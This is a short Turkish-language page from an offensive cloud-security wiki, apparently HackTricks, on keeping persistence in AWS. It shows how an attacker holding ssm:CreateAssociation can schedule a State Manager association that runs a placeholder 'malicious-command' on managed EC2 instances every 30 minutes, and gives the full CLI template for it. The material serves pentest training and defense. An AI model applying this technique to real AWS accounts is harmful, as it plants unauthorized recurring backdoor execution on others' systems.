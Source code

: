 # AWS - SSM Sürekliliği

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Süreklilik için ssm:CreateAssociation kullanma

**`ssm:CreateAssociation`** iznine sahip bir saldırgan, SSM tarafından yönetilen EC2 örneklerinde komutları otomatik olarak yürütmek için bir State Manager Association oluşturabilir. Bu ilişkiler, etkileşimli oturumlar olmadan arka kapı benzeri süreklilik sağlamak için sabit bir aralıkta çalışacak şekilde yapılandırılabilir.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Bu kalıcılık yöntemi, EC2 örneği Systems Manager tarafından yönetildiği, SSM ajanı çalıştığı ve saldırganın ilişkilendirmeler oluşturma iznine sahip olduğu sürece çalışır. Etkileşimli oturumlar veya açık ssm:SendCommand izinleri gerektirmez. **Önemli:** `--schedule-expression` parametresi (örneğin, `rate(30 minutes)`) AWS'nin minimum 30 dakikalık aralığını dikkate almalıdır. Anlık veya tek seferlik yürütme için `--schedule-expression` tamamen hariç tutulmalıdır — ilişkilendirme oluşturulduktan sonra bir kez yürütülecektir.

{{#include ../../../banners/hacktricks-training.md}}

